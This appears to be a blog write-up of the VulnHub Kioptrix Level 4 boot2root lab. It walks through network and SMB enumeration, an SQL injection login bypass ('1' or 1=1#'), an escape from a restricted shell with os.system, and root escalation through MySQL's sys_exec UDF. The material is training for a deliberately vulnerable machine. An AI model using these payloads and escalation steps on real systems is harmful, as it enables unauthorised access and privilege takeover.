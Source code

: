 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 4"
date: 2022-03-05
categories: [VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix-level-4.png

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![image](https://user-images.githubusercontent.com/67465230/156876091-8a7d29f5-477a-4f01-ac56-c3c92b95e31d.png)

Okay, so the IP address of the box is 10.0.2.71.

Now, let's start port scanning with nmap,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876096-599dedca-a8c7-40af-8bdb-d4a171e8f104.png)

we can see that there are 3 ports open 22(SSH), 80(http), 139,445(SMB).

Okay, we got SMB service running on this machine, so let's enumerate all users with nmap's smb-enum-users script,

```bash
sudo nmap -sC --script=smb-enum-users 10.0.2.71 -oN nmap_smb-users
```

![image](https://user-images.githubusercontent.com/67465230/156876105-12fc31b4-ae7e-4c04-b4d1-fe65fa3f9444.png)

we got John User.

Let's check what technologies are running on website,

```bash
whatweb http://10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876115-e37ff5a5-a13f-4647-ac5b-f64df1e05eca.png)

It has password field that means there's a login page as well. Great!!

Let's visit http://10.0.2.71,

![image](https://user-images.githubusercontent.com/67465230/156876126-04ccfa62-f079-45cb-b556-d64cf4c12676.png)

we got login page. Since this box has login mechanism then chances are MySQL service might be running as well ( hopefully it does :) ) and this box is vulnerable to SQLi. So let's try to login using structured query,

providing `username=john and password=1' or 1=1#`,

![image](https://user-images.githubusercontent.com/67465230/156876135-0c585504-8c85-44dc-917b-f28587240919.png)

now press login button,

we got in as john user and there we got login creds (SSH ? let's see! ),

![image](https://user-images.githubusercontent.com/67465230/156876148-0c85aacf-c153-4603-b71c-d03d9b0a62eb.png)

Let's ssh using these creds,

```bash
ssh john@10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876153-b9600342-7f69-4d57-9f0c-df0cb3ebde6d.png)

we got shell!!

let's Identify who we are,

```bash
whoami
id
```

![image](https://user-images.githubusercontent.com/67465230/156876160-1bda5222-e187-4caa-a7a0-5e2a672d77af.png)

Huh?? command won't work? let's try other commands.

try to change directory with cd command,

![image](https://user-images.githubusercontent.com/67465230/156876165-2bd7ed92-93d3-4589-8126-3f791f85e2f7.png)

We got warning and looks like if we type one more command then system will throw us out!! It throws me like trash for few times XD. But why? maybe we have under privilege shell. Let's see what commands we can run,

```bash
help
```

![image](https://user-images.githubusercontent.com/67465230/156876199-8fb87519-84f6-4845-a96d-461b777fd4d4.png)

seems like aren't much commands we can run but there echo command seems great friend to us right now. Let's use it to gain a fully functional shell,

```bash
echo os.system("/bin/bash")
```

![image](https://user-images.githubusercontent.com/67465230/156876203-e6260649-e468-4064-8479-f57a995dfc07.png)

we can now identify who we are with whoami command.

Now, that we got access as John user, now we'll move towards Privilege Escalation. For that, do ENUMERATION!!

After some enumeration, I found a file named checklogin.php in /var/www directory. let's view the content of file,

```bash
cat checklogin.php
```

![image](https://user-images.githubusercontent.com/67465230/156876215-fa0ea7f2-655b-401c-947b-59e43e2c57e8.png)

As you can see that, there is no password, so you can easily bypass MYSQL with UDF, [command-execution-with-mysql-udf](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html), means we can escalate our privileges to root!

But before to proceed, let's check whether MySQL service is running with root privileges or not by typing the following command:

```bash
ls -la /user/lib/lib_mysqludf_sys.so
```

![image](https://user-images.githubusercontent.com/67465230/156876228-4ac8649b-a315-47e1-b97b-c6bc4d65525b.png)

Yes, mysql service is running so now, let's connect to mysql database with mysql client.

```bash
mysql -h localhost -u root -p
```

![image](https://user-images.githubusercontent.com/67465230/156876238-74c32a12-eb2d-4807-9e71-df25fdbf6332.png)

show databases; will give you a list of all databases.

Let's run a usermod command with sys_exec to give john admin privileges,

```bash
select sys_exec("usermod -a -G admin john"); exit
```

![image](https://user-images.githubusercontent.com/67465230/156876245-1e4e112f-789c-42d5-bd3c-cf23bddd7c1d.png)

This will add john to admin group and we'll take exit.

Now, let's switch to superuser,

```bash
sudo su
```

![image](https://user-images.githubusercontent.com/67465230/156876266-6021fbd0-bcb8-4407-a746-52f3e1b2b8bd.png)

by providing the password we found after exploiting login mechanism of machine using SQLi, we got system access and we confirmed it using id command.

navigating to /root directory and establish all directory content with ls,

![image](https://user-images.githubusercontent.com/67465230/156876271-4e9bef95-5c01-4e14-82d1-f4c1ea3dbcbb.png)

we got root flag. Let's view the content of it,

```bash
cat congrats.txt
```

![image](https://user-images.githubusercontent.com/67465230/156876296-f852ebbb-0363-4cf0-9061-725ff84e4dd1.png)

We've successfully rooted this machine.